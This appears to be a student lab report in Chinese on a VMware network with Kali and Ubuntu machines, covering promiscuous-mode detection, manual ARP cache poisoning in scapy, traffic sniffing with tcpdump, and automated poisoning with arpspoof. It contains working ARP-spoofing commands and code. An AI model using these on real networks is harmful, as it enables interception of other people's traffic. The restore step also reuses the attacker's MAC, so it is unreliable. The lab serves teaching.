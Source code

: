 # 实验环境

使用VMware，两台ubuntu，一台Kali


设定所有的机子都使用vmnet2


![set_network.png](img/set_network.png)



查看三台IP：


![vm1_ip.png](img/vm1_ip.png)

![vm2_ip.png](img/vm2_ip.png)



![vm3_ip.png](img/vm3_ip.png)




# 实验一：检测局域网中的异常终端



观察被攻击者（ubuntu）上是否启用了`混杂模式`：


![ubuntu1_ip_link_show_ens33.png](img/ubuntu1_ip_link_show_ens33.png)

可以看到是没有的




启动kali（攻击者）上的scapy：

执行`sudo scapy`


![run_scapy.png](img/run_scapy.png)


尝试发动攻击


```
promiscping("192.168.234.128")
```

可以看到攻击失败了


![attack_failed.png](img/attack_failed.png)


随后打开被攻击者的`混杂模式`


```
sudo ip link set ens33 promisc on
```

![ubuntu1_promisc_on.png](img/ubuntu1_promisc_on.png)


再次发起攻击，成功：

![attack_succ.png](img/attack_succ.png)


# 实验二：手工单步“毒化”目标主机的ARP缓存

- 这里修改了IP地址，见文末问题记录


以下代码在攻击者主机上的 `scapy` 交互式终端完成。

```

    # 获取当前局域网的网关 MAC 地址
    # 构造一个 ARP 请求
    arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="192.168.130.2")
    
    # 查看构造好的 ARP 请求报文详情
    arpbroadcast.show()
    
    # ###[ Ethernet ]###
    #   dst= ff:ff:ff:ff:ff:ff
    #   src= 08:00:27:bd:92:09
    #   type= ARP
    # ###[ ARP ]###
    #      hwtype= 0x1
    #      ptype= IPv4
    #      hwlen= None
    #      plen= None
    #      op= who-has
    #      hwsrc= 08:00:27:bd:92:09
    #      psrc= 192.168.0.103
    #      hwdst= 00:00:00:00:00:00
    #      pdst= 192.168.0.1
    
    # 发送这个 ARP 广播请求
    recved = srp(arpbroadcast, timeout=2)
    
    # 网关 MAC 地址如下
    gw_mac = recved[0][0][1].hwsrc
    
    # 伪造网关的 ARP 响应包
    # 准备发送给受害者主机 192.168.0.102
    # ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
    arpspoofed=ARP(op=2, psrc="192.168.130.2", pdst="192.168.130.130", hwdst="08:00:27:bd:92:09")
    
    # 发送上述伪造的 ARP 响应数据包到受害者主机
    sendp(arpspoofed)
    
```
    


![e2_cap.png](img/e2_cap.png)



查看ubuntu1（靶机） ：


```
ip neigh
```

![ubuntu1_ip_netgh.png](img/ubuntu1_ip_netgh.png)


尝试在kali上抓包

```
    tcpdump -i eth0 -n
```


成功抓到靶机的包

![kali_tcpdump.png](img/kali_tcpdump.png)


随后在kali上恢复靶机的arp缓存


```

restorepkt1 = ARP(op=2, psrc="192.168.130.2", hwsrc="08:00:27:bd:92:09", pdst="192.168.130.130")
sendp(restorepkt1, count=100, inter=0.2)
```


# 实验三：使用自动化工具完成 ARP 投毒劫持实验


使用`arpspoof`：


 ```shell
    arpspoof -i eth0 -t 192.168.130.130 192.168.130.2
```


![run_arpspoof.png](img/run_arpspoof.png)


尝试抓包：

```
    tcpdump -i eth0 -n
```

成功

![attack_succ_2.png](img/attack_succ_2.png)



# 遇到的问题


- VMware的局域网里可以正常连接，但是一开始是没有IP的，所以需要开启dhcp，帮助分配IP
- VMware的仅主机局域网内是没有网关的，不适合进行试验，换成NAT局域网后有网关

